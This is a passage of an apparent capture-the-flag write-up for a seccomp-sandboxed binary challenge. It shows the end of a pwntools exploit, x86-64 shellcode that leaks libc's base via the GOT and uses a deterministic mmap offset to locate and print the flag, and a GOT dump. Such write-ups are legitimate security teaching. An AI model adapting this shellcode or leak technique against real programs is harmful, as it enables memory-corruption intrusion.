 ```python
mov rdi, 69;
syscall;
""")

io.send(payload)
io.interactive()
```

## Solution 2

Well, we don't actually need to pivot to the stack.

`mmap()` is deterministic. If your program creates a memory map without specifying its address, if you run it twice in the same environment, the address it will be assigned will have the same offset relative to `libc`'s base both times.

Knowing this, i checked the offset from gdb, and wrote this shellcode, which after leaking `libc`'s base, moves onto the memory map with the 4 random bytes, and re-calculates the flag's address in the same way the program does.

```assembly
// put libc's base into rax
mov rax, {exe.got['printf']};
mov rax, [rax];
sub rax, {libc.sym['printf']};

// pivot from libc to the mmap containing the random bytes from /dev/urandom
add rax, {udev_mmap_offset};

// calculate the flag's address
mov rax, [rax];
and eax, 0xfffff000;
add rax, 0x1337000;

// print it
mov rsi, rax;
mov rax, 1;
mov rdi, 1;
mov rdx, 50;
syscall;

// exit with code 69
mov rax, 60;
mov rdi, 69;
syscall;
```

The offset i found locally was 0x297000, and sure enough this exploit does work on my computer. But the offset is different on remote. I could leak it via my previous exploit but that feels like cheating. I tried getting gdb working on the docker container but encountered various issues. This should be doable, i just have a skill issue.

## Solution 3


[  0]:        0x7f03c9d06dc0    __libc_start_main
[  1]:                   0x0    __gmon_start__
[  2]:              0x403e10    UNKNOWN
[  3]:        0x7f03c9f642e0    UNKNOWN
[  4]:        0x7f03c9f3ec60    UNKNOWN
[  5]:        0x7f03c9f123d0    seccomp_init
[  6]:        0x7f03c9f137f0    seccomp_rule_add
[  7]:        0x7f03c9f12c40    seccomp_load
[  8]:        0x7f03c9dfbbc0    mmap
[  9]:        0x7f03c9d65060    setbuf
[ 10]:              0x401080    errx
[ 11]:        0x7f03c9d3d770    printf
[ 12]:        0x7f03c9df2100    close
[ 13]:        0x7f03c9df1980    read
[ 14]:        0x7f03c9df1690    open